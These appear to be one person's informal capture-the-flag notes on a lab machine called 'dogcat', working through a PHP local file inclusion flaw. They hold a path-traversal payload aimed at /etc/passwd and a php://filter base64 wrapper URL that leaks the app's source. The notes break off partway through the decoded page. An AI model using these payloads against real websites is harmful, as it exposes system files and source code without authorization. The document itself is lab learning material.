 Warning: include(): Failed opening 'dog../../../../../etc/passwd.php' for inclusion (include_path='.:/usr/local/lib/php') in /var/www/html/index.php on line 24

so it appended .php extension to my passwd so it cant actually show it > : (

google says:

A website configured to automatically add the `.php` extension to URLs typically employs server-side rewrite rules, most commonly using Apache's `mod_rewrite` module via an `.htaccess` file. This is done to achieve cleaner, more user-friendly URLs while still serving the underlying PHP files.

Here's how this is generally implemented:

- **Enabling Rewrite Engine:** The `.htaccess` file begins by enabling the Apache rewrite engine.
which is extremely reminiscent of the .htpassword that was 403ing earlier.... 

says modrewrite can be configured as such

AllowOverride All
 
RewriteEngine On
RewriteRule ^([^\.]+)$ $1.php [NC,L]

I was thinking about it in the car to add null byte to rip off anything added but that failed. Maybe it is past PHP 5.3

![[Pasted image 20251029233226.png]]

At this point I was stuck so I read through a walkthrough that pointed me to this write up on a php wrapper technique allowing for base64 encoding of the

### Typical use and abuse patterns (conceptual)

- **Source disclosure**: Attackers combine a local-file-inclusion (LFI) bug with `php://filter/read=convert.base64-encode/resource=...` to make the application output a Base64-encoded copy of a file (so they can decode it client-side and read source). That works because the wrapper returns bytes that can be printed back to the browser.
this is ChatGPT's explanation 

http://10.201.51.7/?view=dogphp://filter/read=convert.base64-encode/resource=/var/www/html/index.php
didn't work so got stumped again
Warning: include(php://filter/read=convert.base64-encode/resource=dog/../index.php.php): failed to open stream: operation failed in /var/www/html/index.php on line 24

oh double extensions

URI when fixed to not have extra .php spits out this in base64 encoded form 

<!DOCTYPE HTML>
<html>

<head>
    <title>dogcat</title>
    <link rel="stylesheet" type="text/css" href="/style.css">
</head>

<body>
    <h1>dogcat</h1>
    <i>a gallery of various dogs or cats</i>

